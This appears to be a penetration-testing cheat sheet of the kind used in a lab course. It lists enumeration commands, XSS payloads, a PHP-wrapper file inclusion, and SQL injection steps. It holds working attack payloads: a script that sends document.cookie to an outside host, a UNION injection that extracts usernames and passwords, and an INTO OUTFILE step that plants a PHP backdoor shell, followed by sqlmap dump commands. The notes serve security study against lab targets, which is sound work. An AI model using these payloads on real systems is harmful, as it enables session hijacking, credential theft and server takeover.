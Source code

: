 While in Wondows shell: systeminfo
Privilege escalation: winPEAS and linPEAS
xfreerdp /u:Administrator /p:administratorpassword /v:10.10.130.53

##### Web Application Attacks
Web application enumeration (passive enumeration):
	Inspecting URLs with Firefox"s developer tools
	Inspecting page content (source code and resources) with Firefox"s debugger, including the Pretty-print button and Inspector
	Viewing response headers (servers' responses) with a proxy and Firefox"s Network tool. Servers' headers often reveal the Web server name and version.
	Inspecting sitemaps like robots.txt and sitemap.xml (for example with: curl https://www.google.com/robots.txt)
	Locating administration consoles on standard URLs and ports
Web application assessment tools (active enumeration):
	DIRB (Web content scanner using wordlists to identify pages and directories): dirb http://www.megacorpone.com -r -z 10
	Burp Suite: update to latest version, regenerate CA cert and import it in Firefox
	Nikto, a Web server scanner. Nikto is very loud and can be slow. For example: nikto -host=http://www.megacorpone.com -maxtime=30s
Exploiting Admin consoles:
	DIRB + Burp Intruder
Cross-site scripting (XSS):
	<script>alert("XSS")</script>
	<iframe src=http://10.11.0.4/clientsideattack height="0" width="0"></iframe>
	Steal cookie/sessionid: <script>new Image().src="http://10.11.0.4/cool.jpg?output=" + document.cookie;</script>
Directory traversal vulnerabilities
File inclusion vulnerabilities (local or LFI / remote or RFI)
PHP Wrappers: 10.11.0.22/menu.php?file=data:text/plain,<?php echo shell_exec("dir")>
SQL injection:
	Identifying SQL injection vulnerabilities: pass a single quote to an input form and see if we get back an error from the backend database
	Authentication bypass: select * from users where name = 'tom' or 1 = 1;#' and password = 'jones'
	If the application throws an error if multimple records are returned, we can use the following: select * from users where name = 'tom' or 1 = 1 LIMIT 1;#
	Enumerating the database: 10.11.0.22/debug.php?id='
	Column number enumeration (trial and error approach): 
		10.11.0.22/debug.php?id=1 order by 1
		10.11.0.22/debug.php?id=1 order by 2
		etc.
		to automated with Burp
	Extracting data from the database with union statements:
		10.11.0.22/debug.php?id=1 union all select 1, 2, 3
		display MariaDB version: 10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
		display the MariaDB database user: 10.11.0.22/debug.php?id=1 union all select 1, 2, user()
		display the layout of the database: 10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
		display the column names of the users table: 10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
		display the username and password columns from the users table: 10.11.0.22/debug.php?id=1 union all select 1, username, password from users
	From SQL injection to code execution:
		Read a file with the "load_file" function: 10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System/drivers/etc/hosts')
		Use the "into OUTFILE" to create a malicious php file in the Web root: 10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo '<pre> . shell_exec($_GET['cmd']) . '</pre>', ?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
		Then pass a command to the newly created backdoor.php file: 10.11.0.22/backdoor.php?cmd=ipconfig
	Automatic SQL injection:
		Test if there is SQL injection to exploit with sqlmap: sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"
		Automate the extraction of data with sqlmap: sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump